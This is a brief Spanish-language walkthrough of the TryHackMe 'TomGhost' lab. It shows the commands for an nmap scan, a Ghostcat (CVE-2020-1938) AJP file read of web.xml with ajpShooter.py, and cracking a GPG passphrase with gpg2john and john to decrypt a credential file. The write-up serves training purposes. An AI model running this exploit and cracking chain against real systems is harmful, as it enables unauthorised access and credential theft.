





TryHackMe
Easy
Linux
Tomcat
Ghostcat
AJP
GPG
CVE-2020-1938
TomGhost
Ghostcat (CVE-2020-1938) en Tomcat lee web.xml con credenciales; clave GPG crackeable para descifrar credential.gpg.
cat4clysm
Herramientas utilizadas
nmap
ajpShooter.py
gpg2john
john
Scanning
root@kali:~$
nmap -sC -sV -sS -p 22,53,8009,8080 -n -Pn -oN targeted 10.10.239.44
Ghostcat - AJP File Read
Explotamos Ghostcat (CNVD-2020-10487) via el conector AJP en el puerto 8009:
root@kali:~$
python3 ajpShooter.py http://10.10.239.44:8080/ 8009 /WEB-INF/web.xml read
GPG Key Cracking
root@kali:~$
gpg2john tryhackme.asc > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
Passphrase: alexandru
root@kali:~$
gpg --import tryhackme.asc
root@kali:~$
gpg --output credential.txt --decrypt credential.gpg
SSH + Escalada
root@kali:~$
# Continuar con escalada de privilegios del usuario obtenidoLecciones aprendidas
- Ghostcat (CVE-2020-1938) en Tomcat permite leer archivos internos via el conector AJP.
- Las claves GPG cifradas pueden crackearse con gpg2john + john si la passphrase es debil.
- Los archivos .gpg encriptados en el servidor suelen contener credenciales valiosas.